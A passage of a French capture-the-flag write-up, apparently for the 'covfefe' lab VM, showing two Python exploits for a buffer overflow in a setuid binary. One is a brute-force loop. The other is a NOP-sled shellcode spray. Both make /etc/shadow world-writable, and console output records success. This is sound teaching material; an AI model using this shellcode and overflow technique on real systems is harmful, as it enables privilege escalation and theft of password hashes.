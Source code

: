 ```python

count = 0
while True:
        os.system("/usr/local/bin/read_message < input.raw >/dev/null 2>&1")
        count += 1
        if os.stat("/etc/shadow").st_mode & S_IWOTH:
                os.system("ls -al /etc/shadow")
                print("Success after", count, "attempts")
                exit()
```

L'exploitation réussie rapidement. À noter que par défaut la VM est configurée pour n'utiliser que 256Mo de mémoire, ce qui facilite peu être notre tache.

```console
simon@covfefe:~$ python3 exploit.py 
-rw-rw-rw- 1 root shadow 931 Jun 28  2017 /etc/shadow
Success after 66 attempts
```

L'autre technique d'exploitation consiste à placer de nombreux shellcodes avec plein de NOPs dans des variables d'environnement et donner une adresse de la stack comme adresse de retour :

```python
import os
import string
from stat import S_IWOTH
from struct import pack

shellcode = (
    "\x6a\x0f"               #  push $0xf
    "\x58"                   #  pop %eax
    "\x31\xc9"               #  xor %ecx,%ecx
    "\x51"                   #  push %ecx
    "\x66\xb9\xb6\x01"       #  mov $0x1b6,%cx
    "\x68\x61\x64\x6f\x77"   #  push $0x776f6461
    "\x68\x63\x2f\x73\x68"   #  push $0x68732f63
    "\x68\x2f\x2f\x65\x74"   #  push $0x74652f2f
    "\x89\xe3"               #  mov %esp,%ebx
    "\xcd\x80"               #  int $0x80
    "\x40"                   #  inc %eax
    "\xcd\x80"               #  int $0x80
)


for letter in string.ascii_letters:
        os.environ[letter] = "\x90" * 500000 + shellcode

print("Memory filled, bruteforcing...")

stack_address = 0xbf802000
offset = 46
count = 0

while True:
        count += 1
        print("attempt", count)
        for i in range(-100000000, 100000000, 250000):
                buffer = b"Simon\0" + b"A" * offset + pack("<I", stack_address + i) + b"\n"
                with open("input2.raw", "wb") as fd:
                    fd.write(buffer)

                os.system("/usr/local/bin/read_message < input2.raw >/dev/null 2>&1")
                if os.stat("/etc/shadow").st_mode & S_IWOTH:
                        os.system("ls -al /etc/shadow")
```